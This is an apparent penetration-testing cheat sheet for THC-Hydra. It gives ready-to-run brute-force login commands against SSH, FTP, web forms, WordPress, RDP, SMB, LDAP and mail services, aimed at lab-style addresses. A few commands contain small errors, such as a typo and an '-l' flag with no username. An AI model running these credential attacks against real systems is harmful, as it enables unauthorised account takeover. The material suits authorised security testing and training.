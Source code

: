 # Hydra User Guide

* https://github.com/vanhauser-thc/thc-hydra

## Hydra Syntax

* The correct hydra syntax is depended upon the service you are going after. For example if we want to hit ftp we should use:

## FTP

```
hydra -l user -P passlist.txt ftp://10.10.10.10 -F
```

## SSH

```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.10.10. -t 4 ssh
```

* `-l` is to specify the username
* `P` is to specify a password list
* `-t` is to specify the number of threads to run hydra with.
* Note: Hydra recommends no more than 4 threads, however you can run it faster with `-t 16`.
* `-F` means stop when you find your first valid password, highly recommend this option

```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://$host -f
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://$host -f -s 2222
hydra -L user.txt -P password.txt -f ssh://10.10.15.2:31294 -t 4 -w 15 -F 
```

## POST Web Form

* Hydra can be used to brute force web logins as well.
* Step 1: Determine the request made to the form (POST/GET)
* Identify this in the network tab (developer tools), view the source code, or use Burp Suite.
* Syntax:

```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -vV
```

* `http-post-form` specifies the type of form
* `/login url` the login page URL i.e. `http://dont-brute-force-me.com/login.php`
* `:username` the form field name for the username
* `^USER^` this tells hydra to use the username you specified
* `password` the form field name for the password
* `^PASS^` the password list specified in the command
* `Login` the failed login message
* `Login failed` is the login failure message that the form specifies
* `F=inncorrect` the word that appears on the page if the login fails
* `-vV` specifies very verbose output
* Hydra non default ssh port:

```
hydra -t 16 -l sam -P /usr/share/wordlists/rockyou.txt 10.10.80.187 ssh -s 4567 -vV
```

## Example Syntax

```
#Hydra brute force against SNMP
hydra -P password-file.txt -v $ip snmp	
#Hydra FTP known user and rockyou password list
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp	
#Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh	
#Hydra SSH using a known password and a username list
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
#Hydra SSH Against Known username on port 22
hydra $ip -s 22 ssh -l -P big_wordlist.txt	
#Hydra POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V	
#Hydra SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V	
#Hydra attack http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin	
#Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	
#Hydra brute force SMB user with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
#Hydra brute force a Wordpress admin
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	 login
#SMB Brute Forcing
hydra -L usernames.txt -P passwords.txt $ip smb -V -f	
#LDAP Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f	
```

## Additional Syntax Formats

```
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/login:username=molly&password=^PASS^:F=incorrect" -V
sudo hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
hydra -l lazie -P /opt/rockyou.txt imap://10.10.251.142 -vV
```
